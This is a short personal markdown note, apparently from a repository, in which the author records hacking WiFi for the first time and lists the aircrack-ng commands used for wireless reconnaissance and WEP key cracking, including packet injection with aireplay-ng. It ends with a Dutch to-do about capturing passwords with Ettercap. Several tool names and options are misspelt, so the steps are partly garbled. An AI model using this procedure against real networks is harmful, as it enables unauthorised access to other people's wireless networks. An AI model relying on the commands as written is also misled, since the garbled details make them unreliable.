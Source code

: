 ##27/11/2015

Hacked WiFi for the first time! ![FOTO](http://i.imgur.com/PP0AThP.png)

#Steps/Commands

wlan0 = own interface -> wlan1monmon

mon0 = find it by "airmon-ng"

###Wireless Reconnaiccance:
**Window 1**
* iwconfig
* airmin-ng start wlan0
* airodump-ng mon0
* Find information in table
  * ESSID
  * BSSID
  * Channel
  * Client's  MAC

###WEP:
**Window 1**
* airmon-ng
  * Find mon0
* airodump-ng mon0
* Find information in table
	
**New window 2**
* airodump-ng --bssid "client's MAC" -c "Channel" -w wep_log mon0

**New window 3** 
* ifconfig 
* Find own MAC

**New window 4**
* airdoplay-ng -l 0 -a "client's MAC" -h "own MAC" -e "name connaction" mon0 --ignore-negative-one
* airoplay-ng -3 -b "client's MAC" -h "own MAC" mon0 --ignore-negative-one

**New window 5**
* aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b "client's MAC" -h "own MAC" mon0 --ignore-negative-one
* use this packet? ENTER

**Window 2** 
* Everything is fine if data is above 5000 
* Close window 2, 3, 4, 5

**First window**	
* clear
* aircrack-ng -a l -b "client's MAC" -n 64 wep_log-01.cap
	
**_FIND PASSWORD!!!!_**

Next time: Script schrijven!
TODO: Ethercap opzoeken (Hoe wachtwoorden "vangen" !?)

